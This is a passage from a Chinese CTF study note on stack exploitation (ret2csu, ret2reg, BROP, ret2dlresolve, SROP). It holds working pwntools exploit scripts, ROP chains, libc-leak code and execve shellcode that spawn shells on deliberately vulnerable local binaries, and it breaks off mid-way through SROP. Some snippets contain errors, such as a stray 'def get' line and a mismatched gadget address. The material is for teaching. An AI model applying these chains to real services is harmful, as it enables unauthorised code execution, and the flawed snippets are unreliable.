    payload += p64(gatget1_addr)+p64(rbx)+p64(rbp)+p64(r12)+p64(r13)+p64(r14)+p64(r15)
    payload += p64(gatget2_addr)
    payload += 'A'*56
    payload += p64(main_addr)
    p.send(payload)
    sleep(1)

#第一次发送payload，获取write函数的真实地址
p.recvuntil('Hello, World\n')
csu(0,1,write_got_addr,8,write_got_addr,1,main_got_addr)      
write_rel_addr = u64(p.recv(8))
print hex(write_rel_addr)
libc = LibcSearcher('write',write_rel_addr)
libc_base = write_rel_addr-libc.dump('write')
system_addr = libc_base+libc.dump('execve')                    #从system更换成execve

#第二次发送payload，将system函数地址和字符串/bin/sh写入bss段
p.recvuntil('Hello, World\n')
csu(0,1,read_got_addr,16,bss_addr,0,main_got_addr)             
p.send(p64(system_addr)+'/bin/sh\x00')

#第三次发送payload，执行system函数
p.recvuntil('Hello, World\n')
csu(0,1,bss_addr,0,0,bss_addr+8,main_got_addr)             

p.interactive()
```

### 思路

*   利用栈溢出执行 libc\_csu\_gadgets 获取 write 函数地址，并使得程序重新执行 main 函数
*   根据 libcsearcher 获取对应 libc 版本以及 execve 函数地址
*   再次利用栈溢出执行 libc\_csu\_gadgets 向 bss 段写入 execve 地址以及 '/bin/sh’ 地址，并使得程序重新执行 main 函数。
*   再次利用栈溢出执行 libc\_csu\_gadgets 执行 execve('/bin/sh') 获取 shell。

### 疑问

*   上述思路中，能不能省去第三步，直接通过版本找到字符串/bin/sh的地址，然后利用栈溢出传入地址直接执行？
    
    答：不可以，因为这条指令的原因mov edi, r15d，它只能将r15低32位赋给edi,而bss段地址本身比较低，高32位为0不影响赋值后rdi的结果
    
*   如果system函数不行可以尝试使用execve
    

## ret2reg

### 原理（思路）

1.  查看溢出函返回时哪个寄存值指向溢出缓冲区空间
2.  然后反编译二进制，查找 call reg 或者 jmp reg 指令，将 EIP 设置为该指令地址
3.  reg 所指向的空间上注入 Shellcode (需要确保该空间是可以执行的，但通常都是栈上的)

### 利用

源程序：

```plain
#include <stdio.h>
#include <string.h>
void evilfunction(char *input) {
        char buffer[512];
        strcpy(buffer, input);
}
int main(int argc, char **argv) {
        evilfunction(argv[1]);
        return 0;
}
```

编译：

可先开启地址随机化：

```plain
echo 2 > /proc/sys/kernel/randomize_va_space
```

```plain
gcc -Wall -g -o ret2reg ret2reg.c -z execstack -m32 -fno-stack-protector
```

\-Wall表示：在发生警报时取消编译操作，即将警报看作是错误

注：以上步骤正常情况是没有的，只通过可执行文件进行分析，故可以使用IDA进行逆向分析

checksec：

```plain
qufeng@qufeng-virtual-machine:~/Desktop/pwn1$ checksec ret2reg
[*] '/home/qufeng/Desktop/pwn1/ret2reg'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
    RWX:      Has RWX segments
```

通过IDA分析可知程序的大致是通过命令行输入参数，调用evilfunction函数，这个函数使用strcpy将输入赋值给buffer缓冲区

查看汇编代码：

```plain
gdb-peda$ disass evilfunction
Dump of assembler code for function evilfunction:
   0x0804840b <+0>: push   ebp
   0x0804840c <+1>: mov    ebp,esp
   0x0804840e <+3>: sub    esp,0x208
   0x08048414 <+9>: sub    esp,0x8
   0x08048417 <+12>:    push   DWORD PTR [ebp+0x8]
   0x0804841a <+15>:    lea    eax,[ebp-0x208]
   0x08048420 <+21>:    push   eax
   0x08048421 <+22>:    call   0x80482e0 <strcpy@plt>
   0x08048426 <+27>:    add    esp,0x10
   0x08048429 <+30>:    nop
   0x0804842a <+31>:    leave  
   0x0804842b <+32>:    ret    
End of assembler dump.
```

lea eax，\[ebp+buffer\],该指令就是将\[ebp + buffer\]的偏移地址送给eax，也就相当于eax指向了buffer缓冲区的位置

观察到函数的返回地址为0x0804842b，在此处下一个断点

```plain
gdb --args ret2reg 123
b *0x0804842b
r
```

```plain
[----------------------------------registers-----------------------------------]
EAX: 0xffffccb0 --> 0x333231 ('123')
EBX: 0x0 
ECX: 0xffffd19a --> 0x333231 ('123')
EDX: 0xffffccb0 --> 0x333231 ('123')
ESI: 0xf7fb7000 --> 0x1afdb0 
EDI: 0xf7fb7000 --> 0x1afdb0 
EBP: 0xffffced8 --> 0x0 
ESP: 0xffffcebc --> 0x8048450 (<main+36>:   add    esp,0x10)
EIP: 0x804842b (<evilfunction+32>:  ret)
EFLAGS: 0x282 (carry parity adjust zero SIGN trap INTERRUPT direction overflow)
```

可以发现eax的值仍然为缓冲区地址(思路第一步完成)

查找jmp eax或call eax等指令

```plain
ROPgadget --binary ret2reg --only 'jmp|call' | grep 'eax'
或
objdump -d ret2reg | grep *%eax
```

```plain
qufeng@qufeng-virtual-machine:~/Desktop/pwn1$ ROPgadget --binary ret2reg --only 'jmp|call' | grep 'eax'
0x0804841f : call dword ptr [eax - 0x18]
0x080484ff : call dword ptr [eax - 0x80000000]
0x08048373 : call eax
```

将EIP(即返回地址)设置成call eax的指令地址(思路第二部完成)

编写脚本，向缓冲区写入shell（思路第三步完成）

```plain
# -*- coding: utf-8 -*-
from pwn import *

#buf:0x208
#ebp:4
shell = asm(shellcraft.sh())
payload = shell+(0x20c-len(shell))*'A'
payload += p32(0x08048373)

p = process(argv=['./ret2reg',payload])
#gdb.attach(p)
p.interactive()
```

说明：0x20c怎么来的，见链接视频过程，不详述：[https://www.bilibili.com/video/av290246951/](https://www.bilibili.com/video/av290246951/)

```plain
gdb-peda$ run `python -c "print 'a'*0x204"`
```

或者使用prel命令：

```plain
./ret2reg $(perl -e 'printf "\x31\xd2\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x52\x53\x89\xe1\x31\xc0\xb0\x0b\xcd\x80" . "A"x499 ."\x73\x83\x04\x08"')
```

## BROP

### 原理

BROP 是没有对应应用程序的源代码或者二进制文件下，对程序进行攻击，劫持程序的执行流。

攻击条件：

1.  源程序必须存在栈溢出漏洞，以便于攻击者可以控制程序流程。
2.  服务器端的进程在崩溃之后会重新启动，并且重新启动的进程的地址与先前的地址一样（这也就是说即使程序有 ASLR 保护，但是其只是在程序最初启动的时候有效果）。目前 nginx, MySQL, Apache, OpenSSH 等服务器应用都是符合这种特性的。

见[https://wiki.x10sec.org/pwn/linux/user-mode/stackoverflow/x86/medium-rop/#\_13](https://wiki.x10sec.org/pwn/linux/user-mode/stackoverflow/x86/medium-rop/#_13)

### 思路

1.  **判断栈溢出长度**，如有必要可以通过栈溢出来泄露 canaries、rbp 和返回地址
2.  寻找能够返回到 main 函数的 gadgets（通常称为 **stop\_gadget**）
3.  寻找 **brop gadgets**（例如 \_\_libc\_csu\_init 中的 gadgets），定位 pop rdi ; ret 的地址
4.  寻找 **puts 或 write 函数的 plt**，用于 leak 其它地址的值
5.  **dump plt 表**，用于 leak 所需函数的 got 地址
6.  通过 leak 到的 got 地址，**找到对应 libc 版本**，通过 libc 执行系统命令进行 **getshell**

### 利用

1、checksec:

```plain
qufeng@qufeng-virtual-machine:~/Desktop/brop$ checksec brop
[*] '/home/qufeng/Desktop/brop/brop'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

64位，只开启了NX堆栈保护，没有开启canary

2、判断栈溢出长度：

可以使用之前的方法，这里使用下面脚本：

```plain
# -*- coding: utf-8 -*-
from pwn import *
from LibcSearcher import *


def GetBufferLength():
    i = 1
    while 1:
        try:
            p = process('./brop')
            p.recvuntil('WelCome my friend,Do you know password?\n')
            p.send('A' * i)
            out = p.recv()
            p.close()
            # 没有返回到main函数
            if not out.startswith('No password'):#startswith用来判断返回的值以什么开头,判断回传数据
                print 'Buffer flow length:%d'%(i-1)
                return i - 1
            else:
                i += 1
        # 栈溢出
        except EOFError:
            p.close()
            print 'Buffer flow length:%d'%(i-1)
            return i - 1

buffer_length = GetBufferLength()
#print buffer_length
```

```plain
[+] Starting local process './brop': pid 45215
[*] Stopped process './brop' (pid 45215)
72
```

缓冲区溢出长度为72

3、寻找能够返回main函数的gatgets，即stop\_gatget

```plain
#-*- coding: utf-8 -*-
from pwn import *
from LibcSearcher import LibcSearcher
#context.log_level = 'debug'
#context.arch = 'i386'/'amd64'

##buffer_length = GetBufferLength()
buffer_length = 72

def GetStopAddr(length):
        address = 0x400500
        while 1:
                print(hex(address))
                try:
                        p = process('./brop')
                        p.recvuntil('Do you know password?\n')
                        payload = 'a'*length + p64(address)
                        p.send(payload)
                        output = p.recv()
                        p.close()
                        #未成功返回到main函数头部开始执行
                        if not output.startswith('WelCome my friend'):
                                address += 1
                        else:
                            print('stop gadgets = 0x%x' % address)
                                return address
                #触发栈溢出异常
                except EOFError:
                        address += 1
                        p.close()

stop_gadget = GetStopAddr(buffer_length)
```

```plain
[+] Starting local process './brop': pid 120035
[*] Process './brop' stopped with exit code -11 (SIGSEGV) (pid 120035)
0x4005c0
[+] Starting local process './brop': pid 120038
[*] Stopped process './brop' (pid 120038)
stop gadgets = 0x4005c0
```

可以查看汇编代码验证：(但是真实情况下看不见，这就是脚本的作用)

```plain
gdb-peda$ x /20i 0x4005c0
   0x4005c0 <_start>:   xor    ebp,ebp
   0x4005c2 <_start+2>: mov    r9,rdx
   0x4005c5 <_start+5>: pop    rsi
   0x4005c6 <_start+6>: mov    rdx,rsp
   0x4005c9 <_start+9>: and    rsp,0xfffffffffffffff0
##这里返回的是_start,返回main的地址也有用，但是返回_init不行，这主要看起始给的地址
```

4、寻找 brop gadgets（例如 **\_\_libc\_csu\_init 中的 gadgets），定位 pop rdi ; ret 的地址**

```plain
# -*- encoding: utf-8 -*-
from pwn import *
from LibcSearcher import *
#得到可能的brop gatget
def get_brop_gadget(length, stop_gadget, addr):            
    try:
        p = process('./brop')
        p.recvuntil('password?\n')
        payload = 'a' * length + p64(addr) + p64(0) * 6 + p64(
            stop_gadget) + p64(0) * 10             #参考ret2csu原理，这里也可以省去p64(0)*10
        p.sendline(payload)
        content = p.recv()
        p.close()
        #print content
        # stop gadget returns memory
        if not content.startswith('WelCome'):
            return False
        return True
    except Exception:
        p.close()
        return False

#对可能的gatget进行检查
def check_brop_gadget(length, addr):
    try:
        p = process('./brop')
        p.recvuntil('password?\n')
        payload = 'a' * length + p64(addr) + 'a' * 8 * 10  #同样可以省去'a'*8*10
        p.sendline(payload)
        content = p.recv()
        p.close()
        return False
    except Exception:
        p.close()
        return True


##buffer_length = GetBufferLength()
buffer_length = 72
##stop_gatget = getStopAddr(length)
stop_gadget = 0x4005c0
addr = 0x400760
def get
while 1:
    print hex(addr)
    if get_brop_gadget(buffer_length, stop_gadget, addr):
        print 'possible brop gadget: 0x%x' % addr
        if check_brop_gadget(buffer_length, addr):
            print 'success brop gadget: 0x%x' % addr
            break
    addr += 1
```

```plain
[+] Starting local process './brop': pid 120700
[*] Process './brop' stopped with exit code -11 (SIGSEGV) (pid 120700)
success brop gadget: 0x4007ba
```

5、寻找 puts 或 write 函数的 plt，用于 leak 其它地址的值

```plain
#-*- coding: utf-8 -*-
from pwn import *
from LibcSearcher import LibcSearcher
#context.log_level = 'debug'
#context.arch = 'i386'/'amd64'

## buffer_length = getBufferLength()
buffer_length   = 72
## stop_gadget = getStopAddr(buffer_length)
stop_gadget = 0x4005c0
brop_gadget = 0x4007ba
pop_rdi_ret  = brop_gadget + 9  #解释如下

def GetPutsPlt(buffer_length,stop_gadget,pop_rdi_ret):
    addr = 0x400500
    while 1:
        print(hex(addr))
        try:
            p = process('./brop')
            p.recvuntil('Do you know password?\n')
            payload = 'a'*buffer_length + p64(pop_rdi_ret) + p64(0x400000) + p64(addr) + p64(stop_gadget)
            p.sendline(payload)
            output = p.recv()
            p.close()
            if output.startswith('\x7fELF'):#在没有 PIE 保护的时候，64 位程序的 ELF 文件的 0x400000 处有 7 个非零字节。
                print('puts plt address = 0x%x' % addr)
                return addr
            addr += 1
        except Exception:
            p.close()
            addr += 1

puts_plt_addr = GetPutsPlt(buffer_length,stop_gadget,pop_rdi_ret)
```

```plain
[+] Starting local process './brop': pid 122979
[*] Stopped process './brop' (pid 122979)
puts plt address = 0x400555
```

解释为什么pop\_rdi\_ret = brop\_gadgets + 9：

```plain
gdb-peda$ x /10i 0x4007ba
   0x4007ba <__libc_csu_init+90>:   pop    rbx         #这是brop_gatgets
   0x4007bb <__libc_csu_init+91>:   pop    rbp
   0x4007bc <__libc_csu_init+92>:   pop    r12
   0x4007be <__libc_csu_init+94>:   pop    r13
   0x4007c0 <__libc_csu_init+96>:   pop    r14
   0x4007c2 <__libc_csu_init+98>:   pop    r15
   0x4007c4 <__libc_csu_init+100>:  ret    
   0x4007c5:    nop
   0x4007c6:    nop    WORD PTR cs:[rax+rax*1+0x0]
   0x4007d0 <__libc_csu_fini>:  repz ret 

gdb-peda$ x /20i 0x4007ba+9
   0x4007c3 <__libc_csu_init+99>:   pop    rdi         #brop_gatgets+9
   0x4007c4 <__libc_csu_init+100>:  ret    
   0x4007c5:    nop
   0x4007c6:    nop    WORD PTR cs:[rax+rax*1+0x0]
   0x4007d0 <__libc_csu_fini>:  repz ret 
   0x4007d2:    Cannot access memory at address 0x4007d2

#还是看这两句吧
 4007c2:    41 5f                   pop    %r15
 4007c4:    c3                      retq
 #这是pop r15  ret的字节码，但是由于pop rdi，ret的字节码是0x5f 0xc3
 #故地址指向4007c3的时候解析出来的就是pop rdi，与此类似，还有0x4008A1处的 pop rsi，pop r15，ret
 #这就是由opcode错位产生的
```

6、 dump plt 表，用于 leak 所需函数的 got 地址

```plain
from pwn import *
from LibcSearcher import *

def leak(length, rdi_ret, puts_plt, leak_addr, stop_gadget):
    p = process('./brop')
    payload = 'a' * length + p64(rdi_ret) + p64(leak_addr) + p64(
        puts_plt) + p64(stop_gadget)
    p.recvuntil('password?\n')
    p.sendline(payload)
    try:
        data = p.recv()
        p.close()
        try:
            data = data[:data.index("\nWelCome")]
        except Exception:
            data = data
        if data == "":
            data = '\x00'
        return data
    except Exception:
        p.close()
        return None


##buffer_length = getBufferLength()
buffer_length = 72
##stop_gadget = getStopAddr(buffer_length)
stop_gadget = 0x4006c0
##brop_gadget = find_brop_gadget(buffer_length,stop_gadget)
brop_gadget = 0x4007ba
rdi_ret = brop_gadget + 9
##puts_plt = GetPutsPlt(buffer_length, rdi_ret, stop_gadget)
puts_plt_addr = 0x400555
addr = 0x400000
result = ""
while addr < 0x401000:
    print hex(addr)
    data = leak(buffer_length, rdi_ret, puts_plt_addr, addr, stop_gadget)
    if data is None:
        continue
    else:
        result += data
    addr += len(data)
with open('code', 'wb') as f:
    f.write(result)
```

```plain
seg000:0000000000400555                 or      bh, bh
seg000:0000000000400557                 and     eax, 0A200AB4h
seg000:000000000040055C                 nop     dword ptr [rax+0Ah]
seg000:0000000000400560                 jmp     qword ptr cs:0A601018h#puts函数的got地址
```

具体IDA操作方法见链接：[https://www.freesion.com/article/32791039584/#\_1](https://www.freesion.com/article/32791039584/#_1)

7、通过 leak 到的 got 地址，**找到对应 libc 版本**，通过 libc 执行系统命令进行 **getshell**

```plain
#-*- coding: utf-8 -*-
from pwn import *
from LibcSearcher import LibcSearcher
#context.log_level = 'debug'
#context.arch = 'i386'/'amd64'

p = process('./brop')

buffer_length   = 72
stop_gadget = 0x4005c0
brop_gadget = 0x4007ba
pop_rdi_ret  = brop_gadget + 9
puts_plt_addr = 0x400555
puts_got_addr = 0x601018

p.recvuntil('Do you know password?\n')

payload  = 'a' * buffer_length
payload += p64(pop_rdi_ret) + p64(puts_got_addr) + p64(puts_plt_addr)
payload += p64(stop_gadget)

p.sendline(payload)
puts_addr = u64(p.recvuntil('\nWelCome my friend', drop=True).ljust(8, '\x00'))

libc = LibcSearcher('puts', puts_addr)
libc_base = puts_addr - libc.dump('puts')

#####################################################

system_addr = libc_base + libc.dump('system')
bin_sh_addr = libc_base + libc.dump('str_bin_sh')

p.recvuntil('Do you know password?\n')

payload  = 'a' * buffer_length
payload += p64(pop_rdi_ret) + p64(bin_sh_addr) + p64(system_addr) + p64(stop_gadget)

#pwnlib.gdb.attach(proc.pidof(p)[0]) 
p.sendline(payload)
p.interactive()
```

## ret2dlresolve

### 利用

源码：

```plain
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void vuln()
{
    char buf[100];
    setbuf(stdin, buf);
    read(0, buf, 256);
}
int main()
{
    char buf[100] = "Welcome to XDCTF2015~!\n";

    setbuf(stdout, buf);
    write(1, buf, strlen(buf));
    vuln();
    return 0;
}
```

编译：

```plain
gcc -fno-stack-protector -m32 -z norelro -no-pie resolve.c -o resolve32
```

gdb调试

```plain
$disass main
...
   0x08048564 <+101>:   lea    eax,[ebp-0x6c]
   0x08048567 <+104>:   push   eax
   00x08048568 <+105>:  call   0x8048390 <strlen@plt>
...
```

下断点：

```plain
gdb-peda$ b *0x08048568
Breakpoint 2 at 0x8048568
r     
si      #运行一条指令，单步进入
```

跳转到此：

```plain
=> 0x8048390 <strlen@plt>:  jmp    DWORD PTR ds:0x8049854
 | 0x8048396 <strlen@plt+6>:    push   0x10
 | 0x804839b <strlen@plt+11>:   jmp    0x8048360
 | 0x80483a0 <__libc_start_main@plt>:   jmp    DWORD PTR ds:0x8049858
 | 0x80483a6 <__libc_start_main@plt+6>: push   0x18
 |->   0x8048396 <strlen@plt+6>:    push   0x10
       0x804839b <strlen@plt+11>:   jmp    0x8048360
       0x80483a0 <__libc_start_main@plt>:   jmp    DWORD PTR ds:0x8049858
       0x80483a6 <__libc_start_main@plt+6>: push   0x18
```

0x8049854是strlen函数got表地址

push 0x10中0x10表示strlen函数在plt表中据plt段首的偏移值，后面有用

```plain
=> 0x804839b <strlen@plt+11>:   jmp    0x8048360
 | 0x80483a0 <__libc_start_main@plt>:   jmp    DWORD PTR ds:0x8049858
 | 0x80483a6 <__libc_start_main@plt+6>: push   0x18
 | 0x80483ab <__libc_start_main@plt+11>:    jmp    0x8048360
 | 0x80483b0 <write@plt>:   jmp    DWORD PTR ds:0x804985c
 |->   0x8048360:   push   DWORD PTR ds:0x8049844
       0x8048366:   jmp    DWORD PTR ds:0x8049848
       0x804836c:   add    BYTE PTR [eax],al
       0x804836e:   add    BYTE PTR [eax],al
```

0x8048360跳转到公共的 plt 表项

push DWORD PTR ds:0x8049844，其中0x8049844是got\[1\]，里面有 link\_map的地址

```plain
=> 0x8048366:   jmp    DWORD PTR ds:0x8049848
 | 0x804836c:   add    BYTE PTR [eax],al
 | 0x804836e:   add    BYTE PTR [eax],al
 | 0x8048370 <setbuf@plt>:  jmp    DWORD PTR ds:0x804984c
 | 0x8048376 <setbuf@plt+6>:    push   0x0
 |->   0xf7fedfe0:  push   eax
       0xf7fedfe1:  push   ecx
       0xf7fedfe2:  push   edx
       0xf7fedfe3:  mov    edx,DWORD PTR [esp+0x10]
```

0x8049848是got\[2\]，函数dl\_runtime\_resolve的地址，表示要执行这两个函数

> \_dl\_runtime\_resolve(link\_map,reloc\_arg)

执行这个函数需要传递两个参数，link\_map的地址是通过push DWORD PTR ds:0x8049844传递的，值为0x8049844，reloc\_arg是通过push 0x10传递的，值为0x10

现在看看第一个值中存的是什么？

```plain
gdb-peda$ x /x 0x8049844
0x8049844:  0xf7ffd918
```

link\_map的地址是0xf7ffd918

那么link\_map中是什么呢？

> struct link\_map  
> {  
> / _These first few members are part of the protocol with the debugger.  
> This is the same format used in SVR4._ /  
> //共享文件加载基地址  
> ElfW(Addr) l\_addr; / _Base address shared object is loaded at._ /libary基地址  
> //绝对文件名  
> char _l\_name; /_ Absolute file name object was found in. _/libary名字  
> //动态段加载地址  
> ElfW(Dyn)_ l\_ld; / _Dynamic section of the shared object._ /libary下的.dynamic地址  
> //加载项链表  
> struct link\_map _l\_next,_ l\_prev; / _Chain of loaded objects._ /  
> ......
> 
> };

不需要理解太多，只需要知道能够找到.dynamic即可

```plain
gdb-peda$ x /10xw 0xf7ffd918
0xf7ffd918: 0x00000000  0xf7ffdc04  0x08049754  0xf7ffdc08
0xf7ffd928: 0x00000000  0xf7ffd918  0x00000000  0xf7ffdbf8
0xf7ffd938: 0x00000000  0x08049754
```

所以第3个地址就是.dynamic的地址，即0x08049754，查看这个地址中的内容：

```plain
gdb-peda$ x /40xw 0x08049754
0x8049754:  0x00000001  0x00000001  0x0000000c  0x08048338
0x8049764:  0x0000000d  0x08048604  0x00000019  0x08049748
0x8049774:  0x0000001b  0x00000004  0x0000001a  0x0804974c
0x8049784:  0x0000001c  0x00000004  0x6ffffef5  0x0804818c
0x8049794:  0x00000005  0x08048258  0x00000006  0x080481b8
0x80497a4:  0x0000000a  0x0000006b  0x0000000b  0x00000010
0x80497b4:  0x00000015  0xf7ffd904  0x00000003  0x08049840
0x80497c4:  0x00000002  0x00000028  0x00000014  0x00000011
0x80497d4:  0x00000017  0x08048310  0x00000011  0x080482f8
0x80497e4:  0x00000012  0x00000018  0x00000013  0x00000008
```

*   .dynstr 的地址是 .dynamic + 0x44 -> 0x08048258
*   .dynsym 的地址是 .dynamic + 0x4c -> 0x080481b8
*   .rel.plt 的地址是 .dynamic + 0x84 -> 0x08048310

```plain
gdb-peda$ x/x 0x08049754+0x84
0x80497d8:  0x08048310
```

.rel.plt 的地址加上参数 reloc\_arg，即 0x08048310 + 0x10 -> 0x8048320

找到的就是函数的重定位表项 Elf32\_Rel 的指针，记作 rel

> struct
> 
> {
> 
> Elf32\_Addr r\_offset; / _Address_ /
> 
> Elf32\_Word r\_info; / _Relocation type and symbol index_ /
> 
> } Elf32\_Rel;

其中r\_info表示重定位入口的类型和符号，该成员低8位表示充定位入口的类型，高24位表示重定位入口的符号在符号表中的下标。

```plain
gdb-peda$ x/10x 0x08048310
0x8048310:  0x0804984c  0x00000107  0x08049850  0x00000207
0x8048320:  0x08049854  0x00000407  0x08049858  0x00000507
0x8048330:  0x0804985c  0x00000607
```

所以r\_offset:0x08049854,表示got表的指针；r\_info:0x00000407

根据r\_info高24位表示重定位入口的符号在符号表中的下标，故r\_info>>8=4(右移8为)表示高24位的值

```plain
qufeng@qufeng-virtual-machine:~/Desktop/pwn1$ readelf -s resolve32 
Symbol table '.dynsym' contains 10 entries:
   Num:    Value  Size Type    Bind   Vis      Ndx Name
     0: 00000000     0 NOTYPE  LOCAL  DEFAULT  UND 
     1: 00000000     0 FUNC    GLOBAL DEFAULT  UND setbuf@GLIBC_2.0 (2)
     2: 00000000     0 FUNC    GLOBAL DEFAULT  UND read@GLIBC_2.0 (2)
     3: 00000000     0 NOTYPE  WEAK   DEFAULT  UND __gmon_start__
     4: 00000000     0 FUNC    GLOBAL DEFAULT  UND strlen@GLIBC_2.0 (2)
     5: 00000000     0 FUNC    GLOBAL DEFAULT  UND __libc_start_main@GLIBC_2.0 (2)
     6: 00000000     0 FUNC    GLOBAL DEFAULT  UND write@GLIBC_2.0 (2)
     7: 08049884     4 OBJECT  GLOBAL DEFAULT   26 stdout@GLIBC_2.0 (2)
     8: 0804861c     4 OBJECT  GLOBAL DEFAULT   16 _IO_stdin_used
     9: 08049880     4 OBJECT  GLOBAL DEFAULT   26 stdin@GLIBC_2.0 (2)
```

可以验证下表是4

.dynsym中的内容：

```plain
gdb-peda$ x /30x 0x080481b8
0x80481b8:  0x00000000  0x00000000  0x00000000  0x00000000
0x80481c8:  0x00000033  0x00000000  0x00000000  0x00000012
0x80481d8:  0x00000027  0x00000000  0x00000000  0x00000012
0x80481e8:  0x00000052  0x00000000  0x00000000  0x00000020
0x80481f8:  0x00000020  0x00000000  0x00000000  0x00000012
0x8048208:  0x0000003a  0x00000000  0x00000000  0x00000012
0x8048218:  0x0000004c  0x00000000  0x00000000  0x00000012
0x8048228:  0x0000002c  0x08049884
```

符号表.dynsym节，它也是一个结构体Elf32\_Sym数组，其结构体的定义如下：

> typedef struct  
> {  
> Elf32\_Word st\_name; //符号名，是相对.dynstr起始的偏移  
> Elf32\_Addr st\_value;  
> Elf32\_Word st\_size;  
> unsigned char st\_info; //对于导入函数符号而言，它是0x12  
> unsigned char st\_other;  
> Elf32\_Section st\_shndx;  
> }Elf32\_Sym; //对于导入函数符号而言，其他字段都是0

其中st\_name指向的是函数名称在.dynstr表中的偏移,根据前面下标4得到在.dynstr表中的偏移为0x00000020（即.dynsym中的第五行）

查看：

```plain
gdb-peda$ x /s 0x08048258+0x20
0x8048278:  "strlen"
```

## SROP

### 原理

signal 机制是类 unix 系统中进程之间相互传递信息的一种方法。一般，我们也称其为软中断信号，或者软中断。比如说，进程之间可以通过系统调用 kill 来发送软中断信号。一般来说，信号机制常见的步骤如下图所示（参考网图）：

[](https://xzfile.aliyuncs.com/media/upload/picture/20231129204736-791d158e-8eb5-1.jpg)

1.  内核向某个进程发送 signal 机制，该进程会被暂时挂起，进入内核态。
    
2.  内核会为该进程保存相应的上下文，**主要是将所有寄存器压入栈中，以及压入 signal 信息，以及指向 sigreturn 的系统调用地址**。此时栈的结构如下图所示，我们称 ucontext 以及 siginfo 这一段为 Signal Frame。**需要注意的是，这一部分是在用户进程的地址空间的。**之后会跳转到注册过的 signal handler 中处理相应的 signal。因此，当 signal handler 执行完之后，就会执行 sigreturn 代码。
    
    [](https://xzfile.aliyuncs.com/media/upload/picture/20231129204801-881e9f94-8eb5-1.jpg)
    
    对于 signal Frame 来说，会因为架构的不同而有所区别，这里给出分别给出 x86 以及 x64 的 sigcontext（看不懂忽略即可）
    
    x86:
    
    ```plain
    struct sigcontext
    {
      unsigned short gs, __gsh;
      unsigned short fs, __fsh;
      unsigned short es, __esh;
      unsigned short ds, __dsh;
      unsigned long edi;
      unsigned long esi;
      unsigned long ebp;
      unsigned long esp;
      unsigned long ebx;
      unsigned long edx;
      unsigned long ecx;
      unsigned long eax;
      unsigned long trapno;
      unsigned long err;
      unsigned long eip;
      unsigned short cs, __csh;
      unsigned long eflags;
      unsigned long esp_at_signal;
      unsigned short ss, __ssh;
      struct _fpstate * fpstate;
      unsigned long oldmask;
      unsigned long cr2;
    };
    ```
    
    x64:
    
    ```plain
    struct _fpstate
    {
      /* FPU environment matching the 64-bit FXSAVE layout.  */
      __uint16_t        cwd;
      __uint16_t        swd;
      __uint16_t        ftw;
      __uint16_t        fop;
      __uint64_t        rip;
      __uint64_t        rdp;
      __uint32_t        mxcsr;
      __uint32_t        mxcr_mask;
      struct _fpxreg    _st[8];
      struct _xmmreg    _xmm[16];
      __uint32_t        padding[24];
    };
    
    struct sigcontext
    {
      __uint64_t r8;
      __uint64_t r9;
      __uint64_t r10;
      __uint64_t r11;
      __uint64_t r12;
      __uint64_t r13;
      __uint64_t r14;
      __uint64_t r15;
      __uint64_t rdi;
      __uint64_t rsi;
      __uint64_t rbp;
      __uint64_t rbx;
      __uint64_t rdx;
      __uint64_t rax;
      __uint64_t rcx;
      __uint64_t rsp;
      __uint64_t rip;
      __uint64_t eflags;
      unsigned short cs;
      unsigned short gs;
      unsigned short fs;
      unsigned short __pad0;
      __uint64_t err;
      __uint64_t trapno;
      __uint64_t oldmask;
      __uint64_t cr2;
      __extension__ union
        {
          struct _fpstate * fpstate;
          __uint64_t __fpstate_word;
        };
      __uint64_t __reserved1 [8];
    };
    ```
    
3.  signal handler 返回后，内核为执行 sigreturn 系统调用，为该进程恢复之前保存的上下文，其中包括将所有压入的寄存器，重新 pop 回对应的寄存器，最后恢复进程的执行。其中，**32 位的 sigreturn 的调用号为 77，64 位的系统调用号为 15**。
    

### 利用

以360 春秋杯中的 smallest-pwn 为例

下载地址：[https://raw.githubusercontent.com/Reshahar/BlogFile/master/smallest/smallest](https://raw.githubusercontent.com/Reshahar/BlogFile/master/smallest/smallest)

**检查保护，确定信息**

```plain
qufeng@qufeng-virtual-machine:~/Desktop/CTF/pwn/stack$ file smallest
smallest: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), statically linked, stripped
qufeng@qufeng-virtual-machine:~/Desktop/CTF/pwn/stack$ checksec smallest
[] '/home/qufeng/Desktop/CTF/pwn/stack/smallest'
    Arch:     amd64-64-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

程序开启了NX

**IDA分析**

```plain
.text:00000000004000B0 start           proc near               ; DATA XREF: LOAD:0000000000400018↑o
.text:00000000004000B0                 xor     rax, rax
.text:00000000004000B3                 mov     edx, 400h       ; count
.text:00000000004000B8                 mov     rsi, rsp        ; buf
.text:00000000004000BB                 mov     rdi, rax        ; fd
.text:00000000004000BE                 syscall                 ; LINUX - sys_read
.text:00000000004000C0                 retn
.text:00000000004000C0 start           endp
```

其实这是一个系统调用syscall，根据上面的汇编代码可以初步分析,rax的值为0，代表的是系统调用号，此时调用的是read函数，在64为位中，函数所需要的参数先依次放在rdi，rsi，rdx等，故这里rdi也赋值为0，表示从输入读取数据，rsi赋值为rsp，表示存放的地址直接是栈的首地址，rdx为400h，表示最大读入0x400字节，以上汇编语言相当于执行read(0,rsp,0x400h)

**利用思路**

*   通过控制 read 读取的字符数来设置 RAX 寄存器的值，从而执行 sigreturn
*   通过 syscall 执行 execve("/bin/sh",0,0) 来获取 shell。

**步骤**

*   泄露栈地址
    
    先向栈中写入三个首地址(main\_addr)，执行完syscall调用的read函数后，栈中的情况如图<1>：
    
    此时esp指向第一个main\_addr。接着指向ret后，程序返回到main\_addr处，而esp指向第二个main\_addr,如图<2>
    
    接着第二次执行read函数，我们写入一个字符3，此时改变的状态有：RAX因为read写入一个字节而存放1，由于小端存储，esp指向的位置存储的是main\_addr+3,即0x4000B3，如图<3>
    
    接着执行ret，此时返回的地址是esp存放的0x4000B3，表示指令mov edx, 400h，正好跳过了xor rax, rax，这样rax的值能够继续保存为1，此时esp指向的是第三个main\_addr，如图<4>
    
